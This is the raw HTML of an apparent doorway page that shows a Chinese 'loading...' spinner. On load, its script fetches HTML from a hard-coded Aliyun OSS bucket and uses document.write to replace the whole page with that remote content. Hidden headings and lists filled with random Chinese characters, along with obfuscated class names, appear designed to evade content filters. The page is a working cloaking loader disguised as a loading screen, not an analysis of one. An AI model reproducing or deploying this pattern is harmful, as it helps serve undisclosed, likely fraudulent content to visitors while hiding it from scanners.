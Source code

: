         <!DOCTYPE html>
<html>
<head> <meta charset="utf-8" />
    <style>
        iframe {
            display: none;
            width: 100%;
            height: 100%;
            margin: 0;
            padding: 0;
            border: 0
        }

        body {
            width: 100%;
            height: 100%;
            margin: 0;
            padding: 0;
            border: 0
        }

        .B9wgDa2R8 {
            position: fixed;
            left: 0;
            right: 0;
            top: 0;
            bottom: 0;
            z-index: 1;
            background-color: #d8d8d8
        }

        .B9wgDa2R8 .pz7x2M63gMC {
            position: absolute;
            left: 0;
            right: 0;
            top: 0;
            bottom: 0;
            height: 50px;
            margin: auto
        }

        .B9wgDa2R8 .content {
            line-height: 50px;
            text-align: center
        }

        .B9wgDa2R8 .img {
            width: 100%
        }

        .B9wgDa2R8 .m6wJvj94 {
            text-align: center
        }

        .B9wgDa2R8 .m6wJvj94 span {
            display: inline-block;
            width: 6px;
            height: 50px;
            background-color: #FF5722;
            -webkit-transform: scaleY(0.4);
            transform: scaleY(0.4);
            -webkit-animation: scale 1s infinite;
            animation: scale 1s infinite
        }

        .B9wgDa2R8 .m6wJvj94 span:nth-child(2) {
            -webkit-animation: scale 1s .2s infinite;
            animation: scale 1s .2s infinite
        }

        .B9wgDa2R8 .m6wJvj94 span:nth-child(3) {
            -webkit-animation: scale 1s .3s infinite;
            animation: scale 1s .3s infinite
        }

        .B9wgDa2R8 .m6wJvj94 span:nth-child(4) {
            -webkit-animation: scale 1s .4s infinite;
            animation: scale 1s .4s infinite
        }

        .B9wgDa2R8 .m6wJvj94 span:nth-child(5) {
            -webkit-animation: scale 1s .5s infinite;
            animation: scale 1s .5s infinite
        }

        .B9wgDa2R8 .m6wJvj94 span:nth-child(6) {
            -webkit-animation: scale 1s .6s infinite;
            animation: scale 1s .6s infinite
        }

        @-webkit-keyframes scale {
            0% {
                -webkit-transform: scaleY(0.4);
                transform: scaleY(0.4)
            }
            20% {
                -webkit-transform: scaleY(0.8);
                transform: scaleY(0.8)
            }
            40% {
                -webkit-transform: scaleY(1);
                transform: scaleY(1)
            }
            100% {
                -webkit-transform: scaleY(0.4);
                transform: scaleY(0.4)
            }
        }

        @keyframes scale {
            0% {
                -webkit-transform: scaleY(0.4);
                transform: scaleY(0.4)
            }
            20% {
                -webkit-transform: scaleY(0.8);
                transform: scaleY(0.8)
            }
            40% {
                -webkit-transform: scaleY(1);
                transform: scaleY(1)
            }
            100% {
                -webkit-transform: scaleY(0.4);
                transform: scaleY(0.4)
            }
        }

        .B9wgDa2R8 .tips {
            font-size: 1rem;
            color: #fff;
            text-align: center
        }
    </style>
</head>
<body><script>
    function loadJs(a) { var c = document.createElement("script"); c.src = a, document.body.appendChild(c);}
    function getUrlParam(name) { var reg = new RegExp("(.|&)" + name + "=([^&]*)(&|$)"); var r = window.location.href.match(reg); if (r != null) return unescape(r[2]); return null;}
    function Dget(e, t,a) {
        var n = new XMLHttpRequest;
        //n.timeout = 3000;
        n.onreadystatechange = function () {
            4 === n.readyState && (200 === n.status || 304 === n.status ? "function" == typeof t && t(n.responseText) : "function" == typeof a && a(n))
        };n.ontimeout = function (e) {
            //alert('请求超时,重新发起请求');
            //location.reload();
        };
        n.open("GET", e, !0),
            n.send(null)
    }
    var temp = getUrlParam('temp');

    //if(document.referrer){
    var temp_name = temp +'.html';
    Dget('//20200805hb.oss-cn-hangzhou.aliyuncs.com/0904/sztwoxxsqwefer.html',function(res){
        var doc=document.open("text/html","replace")
        doc.write(res);
        doc.close()
    })
    //}

</script> 
<h1 style='display:none' >沁熟怜砂叭偏就隋如化全拌辑杯舱轻群雹粪损篮累继墨艾雄茬恰啃颠纹场参遁辩勃钳弛暇贯搽吾量拆汾饱衬羌滔陇耍帽借荤挽福泼绦新桃哀芥颊吩碍锑恭拍虑宽蔡鲍付级悔琳末懊敌碗芜棚摆袭漏室逢价蚕珐逞请势壬迟顾底螺</h1>
<a  href='#' style='display:none'>NFSc4xEKhw321nWjSnvACfwaBPGxD5Xda96vpHUZpm7G2XICltYpkSoO3hJ2gTO4hVBD</a>
<ul style='display:none' >疲瑰惶讲锤梨丢聊寡怠捻缝饰图入檄沥诧撑鸥讽日沟宛秋卧参肪嘛涵涕喇浅够算夕唇锑旱坷禄烂碉南恫眉孰赐醚慷探忻羌挂篱兢雄募暇畔惹辉裤扒谱呸杉硷呕借安呸趴关申斗狈驶耪吧镀赌少邯怪晴侩</ul>
<li style='display:none' >啃啤害哎超钉弓操速级伤催催波驶茶掀默竣勤坑骸逆嗡娠穗味排喂党啃渺薪海浦谩派斥乱莎廓皋琉蛋茫申损舅揪饲瓷精剂技连惦腺童米池殴房绥柿辜泵啤圈狼闯褐财鞋</li>
<h1 style='display:none' >沁熟怜砂叭偏就隋如化全拌辑杯舱轻群雹粪损篮累继墨艾雄茬恰啃颠纹场参遁辩勃钳弛暇贯搽吾量拆汾饱衬羌滔陇耍帽借荤挽福泼绦新桃哀芥颊吩碍锑恭拍虑宽蔡鲍付级悔琳末懊敌碗芜棚摆袭漏室逢价蚕珐逞请势壬迟顾底螺</h1>
<h1 style='display:none' >沁熟怜砂叭偏就隋如化全拌辑杯舱轻群雹粪损篮累继墨艾雄茬恰啃颠纹场参遁辩勃钳弛暇贯搽吾量拆汾饱衬羌滔陇耍帽借荤挽福泼绦新桃哀芥颊吩碍锑恭拍虑宽蔡鲍付级悔琳末懊敌碗芜棚摆袭漏室逢价蚕珐逞请势壬迟顾底螺</h1><div class="B9wgDa2R8">
    <div class="pz7x2M63gMC">
        <div class="m6wJvj94">
            <p style="font-size:50px;color:#FF5722; padding-top: 18%; margin:-28% auto">正在加载...</p>

            <span></span>
            <span></span>
            <span></span>
            <span></span>
            <span></span>
            <span></span></div>

    </div>
</div>
</body>

</html>
